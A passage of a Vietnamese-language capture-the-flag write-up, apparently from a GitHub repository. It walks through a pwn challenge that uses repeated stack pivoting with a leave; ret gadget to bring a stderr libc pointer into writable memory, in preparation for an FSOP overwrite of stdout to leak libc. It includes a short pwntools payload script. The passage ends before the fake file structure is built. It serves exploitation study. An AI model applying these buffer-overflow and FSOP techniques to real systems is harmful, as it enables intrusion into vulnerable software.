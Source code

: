 ![image](https://github.com/gookoosss/CTF/assets/128712571/36f57004-c9a9-4f8f-8aff-0111dc69f6e0)


- hmm không có pop rdi để ta leak libc như bình thường rồi, nhưng ta lại có leave; ret gadget => leak libc => **FSOP** 

## Exploit 

- chúng ta sẽ dùng FSOP để leak libc, vì vậy ta cần overwrite stdout ptr
- nhưng làm sao ta có thể nhập được vào std ptr đây, sau mấy ngày research thì mình biết có 1 cách đó là sử dụng kĩ thuật **Stack Pivoting** 

### Stack Pivoting

**writeup:** https://github.com/gookoosss/CTF/blob/main/PWN/training/Stack%20Pivoting.md

- theo như mình research thì mỗi lần call puts với rsp đang trỏ đến địa chỉ ghi được( **exe.bss()** ), thì địa chỉ đó sẽ được cấp 1 địa chỉ IO ngẫu nhiên từ libc, để kiểm chứng thì ta sẽ thử debug xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/7d7e30e6-2491-4f0c-bc16-2caaf984373e)


- trước khi puts thì 0x404368 đang là null 

![image](https://github.com/gookoosss/CTF/assets/128712571/d6676e6d-447c-4b57-8c97-5ec8730fe64b)


- và đây là sau khi puts, **0x404368 chứa 0x7fbe8b461f6d (_IO_file_write@@GLIBC_2.2.5+45)** 
- nhưng mà lúc này địa chỉ **_IO_file_write** lại lớn hơn địa chỉ stdout ptr , ta cần địa chỉ nào nhỏ hơn để có thể overwrite nó 
- ta sẽ dùng **Stack Pivoting** tiếp cho đến khi nào ra địa chỉ hợp lý  

![image](https://github.com/gookoosss/CTF/assets/128712571/726d58ca-fff9-47b9-bb87-08778fec2008)

- stderr thì chắc chắn nhỏ hơn stdout rồi , sử dụng gadget leave ; ret để set rbp thành stderr 

```python 
# Stack pivot to bss

payload = b'a'*32+p64(exe.bss()+0x400 + 0x20)+p64(exe.sym['main']+42) 
p.sendline(payload)

# Stack pivot again

payload = b'a'*32+p64(0x404200+0x20)+p64(exe.sym['main']+42)
p.sendline(payload)

# Stack pivot again

payload = b'a'*32+p64(0x404340+8+0x20)+p64(exe.sym['main']+42)
p.sendline(payload)

# Stack pivot again

payload = b'a'*32+p64(0x404378+8+0x20)+p64(exe.sym['main']+42)
p.sendline(payload) 

# now we can see the address 0x404378 to have _IO_2_1_stderr_+96 (libc)

# use leave; ret gadget set rsp = 0x404378

payload = p64(exe.sym['main']+42)*4 + p64(0x404378) + p64(leave)
p.sendline(payload)
```
- sau khi có thể nhập vào stderr rồi, ta sẽ tính offset đến stdout ptr để overwrite
- trước tiên ta cần tạo 1 fake_file 